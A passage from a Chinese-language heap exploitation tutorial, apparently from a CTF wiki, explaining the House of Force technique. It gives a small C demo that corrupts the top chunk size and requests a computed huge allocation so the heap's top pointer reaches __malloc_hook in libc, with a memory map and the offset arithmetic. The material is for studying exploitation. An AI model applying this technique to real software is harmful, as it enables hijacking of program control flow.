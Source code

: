 但是需要注意的是，在被抬高的同時，malloc@got 附近的內容也會被修改。

```c
    set_head(victim, nb | PREV_INUSE |
            (av != &main_arena ? NON_MAIN_ARENA : 0));
```

## 簡單示例2
在上一個示例中，我們演示了通過 HOF 使得 top chunk 的指針減小來修改位於其上面(低地址)的got表中的內容，
但是 HOF 其實也可以使得 top chunk 指針增大來修改位於高地址空間的內容，我們通過這個示例來演示這一點

```
int main()
{
    long *ptr,*ptr2;
    ptr=malloc(0x10);
    ptr=(long *)(((long)ptr)+24);
    *ptr=-1;                 <=== 修改top chunk size
    malloc(140737345551056); <=== 增大top chunk指針
    malloc(0x10);
}
```
我們可以看到程序代碼與簡單示例1基本相同，除了第二次 malloc 的 size 有所不同。
這次我們的目標是 malloc_hook，我們知道 malloc_hook 是位於 libc.so 裏的全局變量值，首先查看內存佈局

```
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/vb/桌面/tst/t1
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/vb/桌面/tst/t1
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/vb/桌面/tst/t1
0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]
0x00007ffff7a0d000 0x00007ffff7bcd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bcd000 0x00007ffff7dcd000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000 0x00007ffff7dd1000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000 0x00007ffff7dd3000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd3000 0x00007ffff7dd7000 0x0000000000000000 rw- 
0x00007ffff7dd7000 0x00007ffff7dfd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7fdb000 0x00007ffff7fde000 0x0000000000000000 rw- 
0x00007ffff7ff6000 0x00007ffff7ff8000 0x0000000000000000 rw- 
0x00007ffff7ff8000 0x00007ffff7ffa000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 0x0000000000000000 r-x [vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffd000 0x00007ffff7ffe000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw- 
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
```
可以看到 heap 的基址在 0x602000，而 libc 的基址在 0x7ffff7a0d000，因此我們需要通過 HOF 擴大 top chunk指針的值來實現對 malloc_hook 的寫。
首先，由調試得知 __malloc_hook 的地址位於 0x7ffff7dd1b10 ，採取計算

0x7ffff7dd1b00-0x602020-0x10=140737345551056
經過這次 malloc 之後，我們可以觀察到 top chunk 的地址被抬高到了 0x00007ffff7dd1b00
